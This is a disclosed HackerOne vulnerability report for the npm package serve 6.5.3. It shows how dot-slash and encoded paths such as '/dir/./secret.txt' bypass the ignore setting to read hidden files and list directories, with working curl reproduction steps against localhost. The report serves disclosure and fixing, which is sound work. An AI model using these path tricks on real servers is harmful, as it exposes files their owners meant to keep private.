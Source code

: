 # [serve] Directory listing and File access even when they have been set to be ignored (using dot-slash)

## Report Details
- **Report ID**: 330724
- **URL**: https://hackerone.com/reports/330724
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-03-28T10:35:21.237Z
- **Disclosed**: 2018-05-30T13:04:31.883Z

## Reporter
- **Username**: tungpun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a vulnerability in **serve**.
It allows listing directory and reading local files on the target server.

# Module

**module name:** serve
**version:** 6.5.3
**npm page:** `https://www.npmjs.com/package/serve`

## Module Description

Ever wanted to share a project on your network by running just a command? Then this module is exactly what you're looking for: It provides a neat interface for listing the directory's contents and switching into sub folders.

In addition, it's also awesome when it comes to serving static sites!

# Vulnerability

## Steps To Reproduce:

* Install serve:

`$ npm i serve`

* Create some child directories, files for demonstration:

`$ mkdir dir`

`$ echo "This is secret content!!" > dir/secret.txt`

`$ mkdir dir/dir2`

`$ touch dir/dir2/3.txt`

* Create an application that uses `serve` for file serving listing and set a few folders and files in the ignore config.

```
const serve = require('serve')
const server = serve(__dirname, {
      port: 6060,
      ignore: ['dir/secret.txt', 'dir/dir2']
})
```

* Run the app

`$ node app.js`

Now, the current directory will be served by this module on port `6060` with the exception of file `dir/secret.txt` and directory `'dir/dir2`.

* If we try to request these ignored files/directories, we get a Not Found error

```
$ curl --path-as-is 'http://127.0.0.1:6060/dir/secret.txt'
Not Found
```

```
$ curl --path-as-is 'http://127.0.0.1:6060/dir/dir2/'
Not Found
```

or if we replace `e` character with URI encoded form `%65`, it still be ignored:

```
$ curl --path-as-is 'http://127.0.0.1:6060/dir/s%65cret.txt'
Not Found
```

* However, I found a way to access that file by using dot-slash.

```
$ curl --path-as-is 'http://127.0.0.1:6060/dir/./secret.txt'
This is secret content!!
```

Or listing the directory:

`http://127.0.0.1:6060/dir/%2e%2fdir2/`

{F279456}

## Supporting Material/References:

* macOS High Sierra 10.13.3
* node v8.10.0
* npm 5.8.0
* Chrome Version 65.0.3325.162 (Official Build) (64-bit)

# Wrap up

- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N

## Impact

It bypasses the ignore files/directories feature and allows an attacker to read a file or list the directory that the victim has not allowed access to.

## Attachments
- serve2.png
